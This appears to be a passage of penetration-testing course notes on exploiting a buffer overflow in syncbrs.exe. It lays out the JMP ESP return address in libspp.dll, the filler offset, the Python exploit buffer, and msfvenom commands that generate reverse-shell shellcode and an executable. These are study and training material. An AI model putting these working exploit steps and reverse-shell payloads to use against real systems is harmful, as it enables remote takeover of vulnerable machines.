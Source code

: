 - Can see that the app (**syncbrs.exe**) has [memory protections](PWK--Strat--10_Buffer_Overflows--11_Windows_BO--Control_Protections.html) disabled. So, it'll always reliably load at the same address. (base address of 0x004xxxxx contains nulls, so isn't suitable)  
	- If the app is compiled w/ DEP support, the **JMP ESP** would have to be located in the **.text** code segment of the module, as that's the only segment w/ both **r** & **x** perms  
- Next DLL w/ all flags set to False - **libspp.dll** (address from 0x10 - 0x10223000) works.  
- Find opcode for **JMP ESP** use [msf-nasm_shell](PWK--Tools--msf--msf-nasm_shell.html):
```bash
msf-nasm_shell  
nasm > jmp esp  
00000000  FFE5       jmp esp
```

- Look for the \#JMPESP within the dll in Immunity Debugger:
```bash
!mona find -s "\xff\xe4" -m "libspp.dll"
```

- To view address in Disassembler window while app is paused - Click Goto
![[GoToAddrDiss.png]]
 
Address In Dissasembler button and enter address found from above step.  
- If we redirect EIP to this address at the time of the crash, the **JMP ESP** instruction will be executed which will move the execution flow into our shellcode (the buffer contined in **ESP**)  
- Rewrite exploit to point **EIP** to return address. ******NOTE: Use python2 as python3 will throw in an extra C2 byte******  
```bash
filler = "A" * 780  
eip = "\x83\x0c\x09\x10"  
offset = "C" * 4  
buffer = "D" * (1500 -len(filler) - len(eip) - len(offset))
```

\*\*NOTE:\*\* As it's little endian, you MUST enter in address in reverse byte order <------ acutal address found: **0x10090c83**  
  
##### shellcode gen
7. Generate shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
	**-p** - Specify payload;
	**LHOST** - Local Host;
	**LPORT** - Local Port;
	**-f** - Specify format;
	**-e** - Specify encoding;
	**-b** Specify bad characters
	**shikata_ga_nai** - Adv polymorphic encoder

(for simple exe rev shell on Win:)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o /tmp/<evil.exe>
```
  
